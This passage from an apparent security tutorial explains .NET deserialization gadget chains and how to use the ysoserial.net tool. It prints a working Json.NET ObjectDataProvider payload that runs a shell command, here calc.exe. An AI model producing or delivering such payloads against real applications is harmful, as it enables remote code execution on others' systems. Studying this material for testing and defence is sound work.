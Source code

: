 Json.NET is far from the only library allowing arbitrary objects to be deserialized. To get an overflow, see the table below to understand which library supports what features:

<figure><img src="../.gitbook/assets/image (58).png" alt=""><figcaption><p>Table of serializers and what gadgets you can execute with them (<a href="https://speakerdeck.com/pwntester/attacking-net-serialization?slide=15">source</a>)</p></figcaption></figure>

### Gadget Chains

You'll be very lucky if you have the source code of your target application, and find a single setter in there that allows RCE. Instead, you should rely on chains of gadgets, often in widely-used libraries.

One small gadget can maybe call a function on another gadget, which grabs a property from a third gadget to ultimately use it in an unsafe way. It's an art to combine these in creative ways, and requires a good understanding of what's available and possible in the codebase. The `ysoserial.net` tool collects such gadgets and can generate them with payloads at will:

{% embed url="https://github.com/pwntester/ysoserial.net" %}
Collection of gadget chains and generator for serialized input
{% endembed %}

To use it, select a gadget chain with `-g`, select the Formatter with `-f` (eg. `Json.Net`). Most gadgets will achieve RCE, and with the `-c` argument you can customize the final shell command it executes.

<pre class="language-shell-session"><code class="lang-shell-session"><strong>$ ysoserial.net -g ObjectDataProvider -f Json.Net -c 'calc.exe' | tr "'" '"'
</strong>{
    "$type":"System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35",
    "MethodName":"Start",
    "MethodParameters":{
        "$type":"System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089",
        "$values":["cmd", "/c calc.exe"]
    },
    "ObjectInstance":{"$type":"System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089"}
}
</code></pre>
